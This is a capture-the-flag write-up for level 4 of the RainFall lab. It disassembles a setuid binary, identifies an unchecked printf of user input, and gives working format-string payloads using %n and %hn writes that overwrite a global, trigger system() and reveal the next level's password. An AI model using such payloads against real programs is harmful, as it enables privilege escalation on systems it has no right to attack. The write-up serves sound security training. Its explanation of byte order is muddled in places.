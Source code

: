 # Level 4

- We login as user level4:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

```
level4@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
level4@RainFall:~$ gdb level4
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
```

```
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   %ebp
   0x08048458 <+1>:     mov    %esp,%ebp
   0x0804845a <+3>:     sub    $0x218,%esp
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
```

```
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```

- Let's identify the calls and jump by execution order:
```
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
```
>`0x8049804 <stdin@@GLIBC_2.0>: 0xb7fd1ac0`

>buffer size is 0x200 bytes

>buffer starts at `-0x208(%ebp)`

>Prompt the user for up to 512 bytes.

```
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
```
>Call the `<p>` function with our buffer as parameter.

```
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
```
>The `<p>` function calls `<printf@plt>` with our buffer.

```
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
```
>`0x8049810 <m>:  0x00000000`

>After the call to `<p>`, compare the value located at `0x8049810` avec with the hexadecimal constant 102 5544 (16 930 116 in decimal). If the two values differ, we `leave` and then `ret`, otherwise we call `<system@plt>`.

```
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
```
>`0x8048590: "/bin/cat /home/user/level5/.pass"`

>Display our flag.


- So, we need to use `<printf@plt>` to assign the value 16930116 to `0x8049810`, we could do it like this
>`echo -ne '\x10\x98\x04\x08 %16930110x %12$n \n' | ./level4`


- It would work, but this time, let's break down this assignment of 4 bytes (`%n`) into two assignments of 2 bytes each (`%hn`). We need to write 16 930 116, which is 102 5544 in hexadecimal:
>Low order bytes = 5544 (21 828 in decimal)

>High order bytes = 0102 (258 in decimal)


- Instead of making an assignment at `0x8049810`, we will make one at `0x8049810` and another one at `0x8049812`. `0x8049810` will contain the bytes representing the most significant value (here, the low-order bytes), and `0x8049812` will contain the bytes representing the least significant value (here, the high-order bytes).
>`\x12\x98\x04\x08\x10\x98\x04\x08 %VALUE1x %12$hn %VALUE2x %13$hn`

>`VALUE1 (0x8049812)` ==> 258 - 8 bytes for the addresses - 2 bytes for the spaces = 248

>`VALUE2 (0x8049810)` ==> 21 828 - 258 - 2 bytes for the spaces = 21 568


- So:
```
echo -ne '\x12\x98\x04\x08\x10\x98\x04\x08 %248x %12$hn %21568x %13$hn' | ./level4
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
